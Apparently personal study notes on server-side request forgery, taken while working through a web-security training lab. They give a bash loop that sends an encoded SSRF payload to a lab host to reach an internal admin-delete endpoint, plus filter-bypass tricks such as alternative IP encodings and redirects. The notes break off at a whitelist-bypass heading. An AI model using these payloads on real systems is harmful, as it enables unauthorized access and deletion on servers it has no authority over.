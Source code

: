 ## Server side forgery request (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a case, we might have a website that requests an API for information, we might change the API link into localhost, and try to perform privileged operations.

example : 

    http://localhost/admin/delete?username=carlos

small bash script to realize that :

    for i in {1..255}; do
        curl  -X POST https://0a0100d603a48ce5814f89b400f0003b.web-security-academy.net/product/stock -d "stockApi=http%3a%2f%2f192.168.0.$i%3a8080%2fadmin%2fdelete%3fusername%3dcarlos" -o /dev/null -w "%{http_code}\n" -s
    done

## SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using the following techniques:

* Use an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
* Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
* Obfuscate blocked strings using URL encoding or case variation.
* Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

Sometime, if it's still not working we might need to use some obfuscation example a =  %2561 // didn't know how nor why it work, need to see some obfuscation modules

## SSRF with whitelist-based input filters